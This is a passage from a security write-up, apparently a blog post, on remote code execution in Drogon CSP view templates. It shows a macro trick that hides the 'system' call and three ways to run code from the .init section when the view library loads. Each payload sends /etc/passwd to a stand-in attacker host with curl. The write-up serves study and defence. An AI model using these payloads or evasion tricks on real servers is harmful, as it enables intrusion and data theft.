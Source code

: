 ```csp
<%inc #define GLUE(X, Y) X ## Y %>
<%c++
    GLUE(s, ystem)("curl http://attacker.site --data @/etc/passwd");
%>
```

### 3. RCE via Init Section

The previous tricks use `<%c++` which only executes when the view is rendered. But what if I told you we can execute code *without even rendering the view*?

That's right, all we need is to load the .so to execute code!

{% image "assets/drogon-dynamic-view-loading-exec-on-init.png", "jw-60 alpha-imgv", "Code can be executed right after loading the .so binary." %}

<sup>Using `<%c++` will execute code when "View is Rendered", but by strategically placing code in the `.init` section of the binary, we can get code to execute right after loading the .so!</sup>{.caption}

Let's look at a few examples of how we can achieve this tomfoolery.

#### Init Section via `<%inc`

There are various ways to run code prior to `main()`. We can make use of the fact that `<%inc` places code in file scope.

```csp
<%inc
// 1. Assign variable with function call.
int a = system("curl http://attacker.site --data @/etc/passwd");

// 2. To run more code, we can create a function first.
int foo() {
    return system("curl http://attacker.site --data @/etc/passwd");
}
int b = foo();

// 3. GCC attributes - gets called automatically.
__attribute__((constructor))
void bar() {
    system("curl http://attacker.site --data @/etc/passwd");
}
%>
```

When compiled, all of this is placed in the `.init_array` section, which allows multiple function pointers to be called during initialisation.

#### Escaping Function Scope with `<%c++` and `[[`

Blocking `<%inc` is not enough. Even with `<%c++` and `[[`, it is possible to escape function scope and insert a function in the top-level. This is partly by-design, so that like PHP, we can use C++ if-statements and for-loops to dynamically generate HTML. But we can also abuse this to escape the `genText()` function.
